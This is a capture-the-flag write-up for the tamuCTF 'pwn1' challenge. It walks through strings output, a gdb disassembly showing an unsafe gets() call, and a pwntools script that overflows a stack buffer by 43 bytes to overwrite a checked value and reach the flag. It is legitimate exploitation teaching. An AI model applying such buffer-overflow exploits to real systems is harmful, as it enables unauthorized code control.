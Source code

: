# tamuCTF: pwn

## pwn1
### Assumeably the easiest among the pwn challenges, I started the approach by running the 32-bit executable. We get asked by a prompt which reads: 
```
   Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see. What... is your name?
```
### Given the prompt and disassembly from gdb, I deduced that there is a string check for these questions. So what I did was use the command line utility *strings* on the binary and I got answers for the first two questions:
```
   Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
   What... is your name?
   Sir Lancelot of Camelot
   I don't know that! Auuuuuuuugh!
   What... is your quest?
   To seek the Holy Grail.
   What... is my secret?
```
### We now passed the first two questions, leaving us with only one more whose answer isn't shown up on strings or anywhere else. Fired up gdb-peda and disassembled the binary to have a deeper look into it. Disassembling the main function results into:
```
   gdb-peda$ disas main
   Dump of assembler code for function main:
      0x00000779 <+0>:	lea    ecx,[esp+0x4]
      0x0000077d <+4>:	and    esp,0xfffffff0
      0x00000780 <+7>:	push   DWORD PTR [ecx-0x4]
      0x00000783 <+10>:	push   ebp
      0x00000784 <+11>:	mov    ebp,esp
      0x00000786 <+13>:	push   ebx
      0x00000787 <+14>:	push   ecx
      0x00000788 <+15>:	sub    esp,0x40
      0x0000078b <+18>:	call   0x600 <__x86.get_pc_thunk.bx>
      0x00000790 <+23>:	add    ebx,0x1820
      0x00000796 <+29>:	mov    eax,DWORD PTR [ebx+0x44]
      0x0000079c <+35>:	mov    eax,DWORD PTR [eax]
      0x0000079e <+37>:	push   0x0
      0x000007a0 <+39>:	push   0x0
      0x000007a2 <+41>:	push   0x2
      0x000007a4 <+43>:	push   eax
      0x000007a5 <+44>:	call   0x580 <setvbuf@plt>
      0x000007aa <+49>:	add    esp,0x10
      0x000007ad <+52>:	mov    DWORD PTR [ebp-0xc],0x2
      0x000007b4 <+59>:	mov    DWORD PTR [ebp-0x10],0x0
      0x000007bb <+66>:	sub    esp,0xc
      0x000007be <+69>:	lea    eax,[ebx-0x1620]
      0x000007c4 <+75>:	push   eax
      0x000007c5 <+76>:	call   0x550 <puts@plt>
      0x000007ca <+81>:	add    esp,0x10
      0x000007cd <+84>:	sub    esp,0xc
      0x000007d0 <+87>:	lea    eax,[ebx-0x15b5]
      0x000007d6 <+93>:	push   eax
      0x000007d7 <+94>:	call   0x550 <puts@plt>
      0x000007dc <+99>:	add    esp,0x10
      0x000007df <+102>:	mov    eax,DWORD PTR [ebx+0x40]
      0x000007e5 <+108>:	mov    eax,DWORD PTR [eax]
      0x000007e7 <+110>:	sub    esp,0x4
      0x000007ea <+113>:	push   eax
      0x000007eb <+114>:	push   0x2b
      0x000007ed <+116>:	lea    eax,[ebp-0x3b]
      0x000007f0 <+119>:	push   eax
      0x000007f1 <+120>:	call   0x530 <fgets@plt>
      0x000007f6 <+125>:	add    esp,0x10
      0x000007f9 <+128>:	sub    esp,0x8
      0x000007fc <+131>:	lea    eax,[ebx-0x159f]
      0x00000802 <+137>:	push   eax
      0x00000803 <+138>:	lea    eax,[ebp-0x3b]
      0x00000806 <+141>:	push   eax
      0x00000807 <+142>:	call   0x510 <strcmp@plt>
      0x0000080c <+147>:	add    esp,0x10
      0x0000080f <+150>:	test   eax,eax
      0x00000811 <+152>:	je     0x82f <main+182>
      0x00000813 <+154>:	sub    esp,0xc
      0x00000816 <+157>:	lea    eax,[ebx-0x1584]
      0x0000081c <+163>:	push   eax
      0x0000081d <+164>:	call   0x550 <puts@plt>
      0x00000822 <+169>:	add    esp,0x10
      0x00000825 <+172>:	sub    esp,0xc
      0x00000828 <+175>:	push   0x0
      0x0000082a <+177>:	call   0x560 <exit@plt>
      0x0000082f <+182>:	sub    esp,0xc
      0x00000832 <+185>:	lea    eax,[ebx-0x1564]
      0x00000838 <+191>:	push   eax
      0x00000839 <+192>:	call   0x550 <puts@plt>
      0x0000083e <+197>:	add    esp,0x10
      0x00000841 <+200>:	mov    eax,DWORD PTR [ebx+0x40]
      0x00000847 <+206>:	mov    eax,DWORD PTR [eax]
      0x00000849 <+208>:	sub    esp,0x4
      0x0000084c <+211>:	push   eax
      0x0000084d <+212>:	push   0x2b
      0x0000084f <+214>:	lea    eax,[ebp-0x3b]
      0x00000852 <+217>:	push   eax
      0x00000853 <+218>:	call   0x530 <fgets@plt>
      0x00000858 <+223>:	add    esp,0x10
      0x0000085b <+226>:	sub    esp,0x8
      0x0000085e <+229>:	lea    eax,[ebx-0x154d]
      0x00000864 <+235>:	push   eax
      0x00000865 <+236>:	lea    eax,[ebp-0x3b]
      0x00000868 <+239>:	push   eax
      0x00000869 <+240>:	call   0x510 <strcmp@plt>
      0x0000086e <+245>:	add    esp,0x10
      0x00000871 <+248>:	test   eax,eax
      0x00000873 <+250>:	je     0x891 <main+280>
      0x00000875 <+252>:	sub    esp,0xc
      0x00000878 <+255>:	lea    eax,[ebx-0x1584]
      0x0000087e <+261>:	push   eax
      0x0000087f <+262>:	call   0x550 <puts@plt>
      0x00000884 <+267>:	add    esp,0x10
      0x00000887 <+270>:	sub    esp,0xc
      0x0000088a <+273>:	push   0x0
      0x0000088c <+275>:	call   0x560 <exit@plt>
      0x00000891 <+280>:	sub    esp,0xc
      0x00000894 <+283>:	lea    eax,[ebx-0x1534]
      0x0000089a <+289>:	push   eax
      0x0000089b <+290>:	call   0x550 <puts@plt>
      0x000008a0 <+295>:	add    esp,0x10
      0x000008a3 <+298>:	sub    esp,0xc
      0x000008a6 <+301>:	lea    eax,[ebp-0x3b]
      0x000008a9 <+304>:	push   eax
      0x000008aa <+305>:	call   0x520 <gets@plt>
      0x000008af <+310>:	add    esp,0x10
      0x000008b2 <+313>:	cmp    DWORD PTR [ebp-0x10],0xdea110c8
      0x000008b9 <+320>:	jne    0x8c2 <main+329>
      0x000008bb <+322>:	call   0x6fd <print_flag>
      0x000008c0 <+327>:	jmp    0x8d4 <main+347>
      0x000008c2 <+329>:	sub    esp,0xc
      0x000008c5 <+332>:	lea    eax,[ebx-0x1584]
      0x000008cb <+338>:	push   eax
      0x000008cc <+339>:	call   0x550 <puts@plt>
      0x000008d1 <+344>:	add    esp,0x10
      0x000008d4 <+347>:	mov    eax,0x0
      0x000008d9 <+352>:	lea    esp,[ebp-0x8]
      0x000008dc <+355>:	pop    ecx
      0x000008dd <+356>:	pop    ebx
      0x000008de <+357>:	pop    ebp
      0x000008df <+358>:	lea    esp,[ecx-0x4]
      0x000008e2 <+361>:	ret    
   End of assembler dump.
```
### We see that the prompts for the first two questions get user input via fgets, which is a quite secure way of getting user input. But the third question at address ```0x0000089b``` uses a gets() call for input, which is vulnerable to buffer overflow attacks. It is also important to note that the program also checks if the answer for the third question is equal to ```0xdea110c8``` before it proceeds to the ```print_flag``` function. So the exploit method for this challenge will be a buffer overflow into controlling an argument. But before we head that, we do a deeper analysis of the code block that happens before and after the gets call. 
```
      0x000008a0 <+295>:	add    esp,0x10
      0x000008a3 <+298>:	sub    esp,0xc
      0x000008a6 <+301>:	lea    eax,[ebp-0x3b]
      0x000008a9 <+304>:	push   eax
      0x000008aa <+305>:	call   0x520 <gets@plt>
      0x000008af <+310>:	add    esp,0x10
      0x000008b2 <+313>:	cmp    DWORD PTR [ebp-0x10],0xdea110c8
```
### What this does is allocates space on the stack for some variables, which is the array buffer in this case, and pushes a pointer to ```[ebp-0x3b]``` , which is the address for the array buffer, on the stack. After the gets call, a compare instruction is done at address ```[ebp-0x10]``` if the contents is in fact equal to ```0xdea110c8```. So it becomes clearer that we have to overwrite the contents of ```[ebp-0x3b]``` to ```[ebp-0x10]```, which has a difference of 43 which is the offset we need to overflow the buffer. And we proceed with the exploitation.
#### exploit.py
```python
   from pwn import *

   #: Connect to challenge server
   HOST = 'pwn.tamuctf.com'
   PORT = 4321
   conn = remote(HOST,PORT)

   #: Exploit code
   offset = 'A' * 43
   secret = p32(0xdea110c8)
   exploit = offset + secret

   #: Send data
   print(conn.recv())
   conn.sendline('Sir Lancelot of Camelot')
   print(conn.recv())
   conn.sendline('To seek the Holy Grail.')
   print(conn.recv())
   conn.sendline(exploit)
   print(conn.recv())
   print(conn.recv())
```
### And we then get the flag! 
```
   Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
   What... is your name?

   What... is your quest?

   What... is my secret?

   Right. Off you go.
   gigem{34sy_CC428ECD75A0D392}
```
## Flag: gigem{34sy_CC428ECD75A0D392}
